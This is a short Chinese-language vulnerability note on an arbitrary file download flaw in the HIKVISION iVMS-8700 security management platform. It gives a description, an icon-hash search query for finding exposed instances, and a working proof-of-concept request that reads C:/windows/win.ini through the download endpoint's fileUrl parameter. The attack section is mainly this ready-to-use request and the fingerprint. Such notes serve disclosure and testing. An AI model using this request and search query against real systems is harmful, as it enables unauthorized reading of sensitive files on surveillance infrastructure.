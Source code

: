 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019.png)

验证POC， token 为 Url md5

```php
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![img](../../../.vuepress/public/img/1685329799397-00a22589-5e0f-43a3-a7c9-ae17687c5dbb.png)